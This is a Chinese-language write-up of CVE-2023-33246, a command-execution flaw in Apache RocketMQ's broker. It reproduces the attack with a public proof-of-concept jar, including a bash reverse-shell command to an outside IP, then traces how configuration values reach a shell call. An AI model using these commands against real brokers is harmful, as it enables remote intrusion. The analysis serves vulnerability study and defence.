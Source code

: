 反弹结果

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185556.png)

    
    
    git clone https://github.com/SuperZero/CVE-2023-33246.git  
    java -jar CVE-2023-33246.jar -ip "127.0.0.1:10911" -cmd "222 >/root/2.txt"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185557.png)

进入容器，查看根部录下文件是已写入

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185558.png)

    
    
    java -jar CVE-2023-33246.jar -ip "127.0.0.1:10911" -cmd "bash -i >& /dev/tcp/10.10.14.72/65532 0>&1"

反弹shell

![]()

#### 漏洞分析

启动broker路由如下：

    
    
    main:50, BrokerStartup (org.apache.rocketmq.broker)  
    start:55, BrokerStartup (org.apache.rocketmq.broker)   
    start:1570, BrokerController (org.apache.rocketmq.broker)   
    startBasicService:1527, BrokerController (org.apache.rocketmq.broker)   
    start:57, FilterServerManager (org.apache.rocketmq.broker.filtersrv)

当在函数`org.apache.rocketmq.broker.filtersrv.FilterServerManager`61行

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185559.png)

调用下面的`createFilterServer`方法，71行中看到从配置文件中获取参数。72行调用方法`buildStartCommand`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185600.png)

该方法中取到变量`NamesrvAddr`和 `RocketmqHome`,获取之后进行拼接cmd，在72行拿到拼接后的`cmd`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185601.png)

进入for循环后在`org.apache.rocketmq.broker.filtersrv.FilterServerUtil`中给的`callshell`方法去执行命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185602.png)

该中间件本来就是每30秒执行一次，漏洞产生的就是修改了配置文件，变量被赋值为了恶意命令，导致了命令执行。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185603.png)
**原创稿件征集**

征集原创技术文章中，欢迎投递
